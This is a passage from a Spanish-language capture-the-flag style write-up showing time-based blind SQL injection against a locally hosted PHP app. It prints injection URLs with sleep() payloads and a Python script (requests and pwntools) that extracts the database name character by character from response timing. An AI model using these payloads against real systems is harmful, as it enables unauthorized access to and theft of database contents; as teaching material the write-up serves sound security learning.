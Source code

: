 ```html
http://127.0.0.1:1234/index.php?method=select&username=administrator' AND sleep(5) AND '1'='1&table=passwords
o
http://127.0.0.1:1234/index.php?method=select&username=a' OR sleep(5) AND '1'='1&table=passwords
```

Listo, podemos crearnos un script para automatizar la extracción de la data.

**(Si recordamos cuando encontramos el archivo `db.php` habla de la base de datos llamada `bread`, podríamos saltarnos este paso, pero igual se los quiero mostrar para que vean como es el proceso)**

...

### SQL injection - time based (blind) [⌖](#sqli-blind) {#sqli-blind}

---

##### Obtenemos nombre de la <u>base de datos</u>.

👀

```py
#!/usr/bin/python3

import requests, time
from pwn import *

url = "http://localhost:1234/index.php"

p1 = log.progress("SQLi blind")
p2 = log.progress("Database name")

session = requests.Session()

# Creamos nuestro "diccionario"
dic_letters = "abcdefghijklmnopqrstuvwxyz0123456789.+!$#-~}:\"\'{*][%,&/\)(=ABCDEFGHIJKLMNOPQRSTUVWXYZ"
result = ""

# Recorrera 16 posiciones en la palabra, osea para intentar encontrar 16 caracteres
for position in range(1, 16):
    # Toma cada caracter de nuestro "dic"
    for letter in dic_letters:
        # Extrae el tiempo antes de la peticion
        time_now = time.time()

        payload = "?method=select&"
        payload += "username=administrator' and if(substr(database(),%d,1)='%s',sleep(3),1) and '1'='1&" % (position, letter)
        payload += "table=passwords"

        p1.status(payload)
        r = session.get(url + payload)

        # Extrae el tiempo despues de la peticion
        time_after = time.time()

        # Validamos los tiempos, si hay diferencia de 3 o más, sabemos que esa peticion hablo con la base de datos, por lo tanto extraemos la letra 
        if time_after - time_now > 2:
            result += letter
            p2.status(result)
            break

p1.success("Done")
```